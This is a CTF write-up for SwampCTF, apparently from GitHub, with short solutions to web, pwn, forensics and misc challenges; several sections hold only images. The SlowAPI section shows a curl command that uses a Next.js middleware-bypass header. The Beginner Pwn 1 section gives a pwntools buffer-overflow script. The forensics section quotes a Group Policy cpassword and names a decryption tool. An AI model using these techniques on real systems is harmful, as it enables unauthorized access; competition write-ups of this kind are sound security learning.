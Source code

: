 * * *
### CTF: **SwampCTF**
* * *

![image](https://github.com/user-attachments/assets/e85ba37f-462c-4762-9886-468bf675e5ea)


--------------------------------

### Challenges

- Web:
  - Serialies
  - SlowAPI 

- Pwn:
  - Beginner Pwn 1
  - Beginner Pwn 2

- Misc:
  - Lost In Translation 
    
- Forensics:
  - Preferential Treatment

- Osint:
  - Party Time! 
  - Party Time! Level 2 

- Crypto:
  - Rock my Password 
  - Intercepted communications
  
--------------------------------
   
### Web:

### Challenge: Serialies
![image](https://github.com/user-attachments/assets/64b27c27-c8b1-4d4a-8e72-2859105706a7)

After I Download the file ```serialies.zip```
In the PersonController.java file, we find the /api/person endpoint. Navigating there gives us the flag.

![image](https://github.com/user-attachments/assets/9bf8ffdd-7fa3-44e9-80a8-df9f40389e33)
swampCTF{f1l3_r34d_4nd_d3s3r14l1z3_pwn4g3_x7q9z2r5v8}

--------------------------------


### Challenge: SlowAPI 
![image](https://github.com/user-attachments/assets/7639e47e-e6fb-4373-9cc0-c5fc4bfc6e2d)

- IT The RECENT NEXT.JS VULNERABILITY!!!!
- ```curl -H "x-middleware-subrequest: middleware" http://chals.swampctf.com:43611/api/protected/flag```
      
--------------------------------


### PWN:

### Challenge: Beginner Pwn 1
![image](https://github.com/user-attachments/assets/708c2055-022e-4c34-a702-e39f67354b5a)

- Solve script
python3
[from pwn import *

# Set up connection to the challenge server
HOST = "chals.swampctf.com"
PORT = 40004

# Buffer overflow payload
payload = b"A" * 10 + b"\x01\x00\x00\x00"  # Overwrite is_admin to 1 (true)

# Start interaction
p = remote(HOST, PORT)
p.recvuntil(b"please enter your name: ")
p.sendline(payload)

# Read output to check if admin
print(p.recv().decode())

# Send "y" to print flag
p.sendline(b"y")

# Receive and print flag
print(p.recvall().decode())

# Close connection
p.close()]
 
### Challenge: Beginner Pwn 2
![image](https://github.com/user-attachments/assets/cc125998-d69a-423d-b5e8-3bdd7eebf32e)

- Solve Script


--------------------------------

### MISC

### Challenge: Lost In Translation

![image](https://github.com/user-attachments/assets/32e32d6b-eee6-4494-8e1c-b35f7c53510a)

After i unzip the file, there is challenge.js and i Copy and paste the challenge.js to this whitespace "https://www.dcode.fr/whitespace-language"</a>




  
--------------------------------

### FORENSICS:

### Challenge: Preferential Treatment:
![image](https://github.com/user-attachments/assets/84ac06e1-0957-45a5-ab7b-3c04a9dbc6b6)

when checking the pcap following the tcp you can see the following:
"<Groups clsid="{3125E937-EC16-4b4c-9934-544FC6D24D26}">
    <User clsid="{DF5F1855-52E5-4d24-8B1A-D9BDE98BA1D1}" name="swampctf.com\Administrator" image="2"
          changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
        <Properties action="U" newName="" fullName="" description=""
                    cpassword="dAw7VQvfj9rs53A8t4PudTVf85Ca5cmC1Xjx6TpI/cS8WD4D8DXbKiWIZslihdJw3Rf+ijboX7FgLW7pF0K6x7dfhQ8gxLq34ENGjN8eTOI="
                    changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="swampctf.com\Administrator"/>
    </User>
</Groups>"
then I looked up what that was and realized it was a weakly encrypted password
so I found a repo to decrypt it.
"https://github.com/t0thkr1s/gpp-decrypt"



--------------------------------


### OSINT      

### Challenge: Party Time! 
![image](https://github.com/user-attachments/assets/f3f16896-d45f-461a-9c41-b047cb34c697)



### Challenge: Party Time! Level 2
![image](https://github.com/user-attachments/assets/dcd2698c-1dd1-479b-b215-517fa5dec4f3)



--------------------------------

### CRYPTO:

### Challenge: Rock my Password 
![image](https://github.com/user-attachments/assets/bba615e3-4145-4d6d-9129-5a296d8598ba)


### Challenge: Intercepted communications
![image](https://github.com/user-attachments/assets/b84f48ac-de68-4af6-b0cd-dc8dd0cdf699)





--------------------------------

Thanks for reading!!!!!

* * *

